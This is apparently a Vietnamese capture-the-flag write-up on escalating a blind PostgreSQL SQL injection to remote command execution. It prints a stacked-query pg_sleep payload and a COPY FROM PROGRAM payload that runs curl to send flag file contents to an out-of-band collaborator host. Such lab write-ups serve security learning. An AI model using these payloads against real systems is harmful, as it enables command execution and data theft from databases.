

Baby SQL Injection to RCE

# 1. Brainstorm:
## Thông tin đề bài cho
* Server dùng dbms là Postgre,php và Nginx
* Mục tiêu là file /flagXXXX.txt (XXXX là random nha)
* Câu query:

#### Không parameterized query -> SQLi được

## Kiểm tra xem có thể thực hiện stacked query trên dbms không bằng payload:
#### ' or 1=1; select pg_sleep(10); --

Oke, dính rồi
#### --> Có thể stacked query được

## Đề bài hỏi có execute được os command không ? 
Vậy thì hint đây rồi, tìm cách rce bằng os command.
Tìm được payload như sau

# 2. Exploit:
## Phân tích payload
* Ý tưởng của payload là tạo 1 table cmd_exec với column là cmd_output dùng để lưu data của os command được thực thi
* OS command sẽ được thực thi nhờ hàm Copy FROM PROGRAM và lưu vào bên trong cmd_exec table đã tạo
* Sau đó sẽ gọi ra nhờ vào SELECT * FROM cmd_exec
## Craft payload
Không thể in trực tiếp dữ liệu của table ra được vì trong code php trả về cho client chỉ in ra $messenger lấy từ $username nhập vào (Nghĩa là ở đây chỉ in ra câu payload) 
#### --> Đây là Blind SQL Injection. Vậy thì mình out-bound data ra ngoài webhook hoặc burp collaborator thôi.
## POC
#### Payload: 
#### ' OR 1=1; COPY cmd_exec FROM PROGRAM 'curl -X POST --data "data=`cat /*.txt`" 7s0mfarpjzoo6ejxf17tb9ehe8kz8uwj.oastify.com'; --

## Ngoài lề
Trước khi mình out-bound thì mình đã thử arbitrary write file nhưng có vẻ chỉ có superuser mới có quyền write file :v

